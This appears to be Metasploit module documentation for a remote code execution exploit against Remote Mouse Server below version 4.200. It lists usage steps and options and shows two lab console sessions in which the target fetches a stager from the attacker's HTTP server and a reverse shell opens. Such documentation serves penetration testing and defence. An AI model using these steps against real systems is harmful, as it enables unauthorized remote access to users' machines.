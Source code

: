 ## Vulnerable Application

This module utilizes the Remote Mouse Server by Emote Interactive protocol
to deploy a payload and run it from the server on versions < 4.200 (500 server response).
This module will deploy
a payload regardless if server authentication is required.
Tested against 4.110, current at the time of module writing

Version 4.110 can be downloaded from
(unofficial site)[https://remote-mouse.en.uptodown.com/windows/download/4546712]
    
## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/windows/misc/remote_mouse_rce`
4. Set `rhost` and `lhost` as required.
5. Do: `run`
6. You should get a shell as the user who is running Remote Mouse.

## Options

### SLEEP

The length of time, in seconds, to sleep between each command. This gives the remote program time to process the command on screen.
Defaults to `1`.

### PATH

The path where the payload should be downloaded/staged to. Defaults to `c:\\Windows\\Temp\\`.

## Scenarios

###  Remote Mouse 4.110 on Windows 10

```
resource (remote_mouse.rb)> use exploits/windows/misc/remote_mouse_rce
[*] Using configured payload windows/shell/reverse_tcp
resource (remote_mouse.rb)> set rhosts 192.168.2.95
rhosts => 192.168.2.95
resource (remote_mouse.rb)> set lhost 192.168.2.199
lhost => 192.168.2.199
resource (remote_mouse.rb)> set verbose true
verbose => true
msf6 exploit(windows/misc/remote_mouse_rce) > run

[*] Started reverse TCP handler on 192.168.2.199:4444 
[*] 192.168.2.95:1978 - Running automatic check ("set AutoCheck false" to disable)
[+] 192.168.2.95:1978 - The target appears to be vulnerable. Received handshake with version: 411
[*] 192.168.2.95:1978 - Connecting
[*] 192.168.2.95:1978 - Sending Windows key
[*] 192.168.2.95:1978 - Opening command prompt
[*] 192.168.2.95:1978 - Sending stager
[*] 192.168.2.95:1978 - Using URL: http://192.168.2.199:8080/
[+] 192.168.2.95:1978 - Payload request received, sending 73802 bytes of payload for staging
[+] 192.168.2.95:1978 - Payload request received, sending 73802 bytes of payload for staging
[*] 192.168.2.95:1978 - Executing payload
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 192.168.2.95
[*] Command shell session 1 opened (192.168.2.199:4444 -> 192.168.2.95:49962) at 2022-09-27 16:33:02 -0400
[*] 192.168.2.95:1978 - Server stopped.
[!] 192.168.2.95:1978 - This exploit may require manual cleanup of 'c:\Windows\Temp\NADYvmtxr.exe' on the target


Shell Banner:
Microsoft Windows [Version 10.0.16299.125]
-----
          

C:\Users\windows>whoami 
whoami
win10prolicense\windows

C:\Users\windows>systeminfo
systeminfo

Host Name:                 WIN10PROLICENSE
OS Name:                   Microsoft Windows 10 Pro
OS Version:                10.0.16299 N/A Build 16299
```

###  Remote Mouse 4.110 on Windows 10, with a password


```
resource (remote_mouse.rb)> use exploits/windows/misc/remote_mouse_rce
[*] Using configured payload windows/shell/reverse_tcp
resource (remote_mouse.rb)> set rhosts 192.168.2.95
rhosts => 192.168.2.95
resource (remote_mouse.rb)> set lhost 192.168.2.199
lhost => 192.168.2.199
resource (remote_mouse.rb)> set verbose true
verbose => true
msf6 exploit(windows/misc/remote_mouse_rce) > exploit

[*] Started reverse TCP handler on 192.168.2.199:4444 
[*] 192.168.2.95:1978 - Running automatic check ("set AutoCheck false" to disable)
[+] 192.168.2.95:1978 - The target appears to be vulnerable. Received handshake with version: 411
[*] 192.168.2.95:1978 - Connecting
[*] 192.168.2.95:1978 - Sending Windows key
[*] 192.168.2.95:1978 - Opening command prompt
[*] 192.168.2.95:1978 - Sending stager
[*] 192.168.2.95:1978 - Using URL: http://192.168.2.199:8080/
[+] 192.168.2.95:1978 - Payload request received, sending 73802 bytes of payload for staging
[+] 192.168.2.95:1978 - Payload request received, sending 73802 bytes of payload for staging
[*] 192.168.2.95:1978 - Executing payload
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 192.168.2.95
[*] Command shell session 1 opened (192.168.2.199:4444 -> 192.168.2.95:49975) at 2022-09-27 16:36:09 -0400
[*] 192.168.2.95:1978 - Server stopped.
[!] 192.168.2.95:1978 - This exploit may require manual cleanup of 'c:\Windows\Temp\86a4GsbpomvEgUS.exe' on the target


Shell Banner:
Microsoft Windows [Version 10.0.16299.125]
-----
          

C:\Users\windows>
```
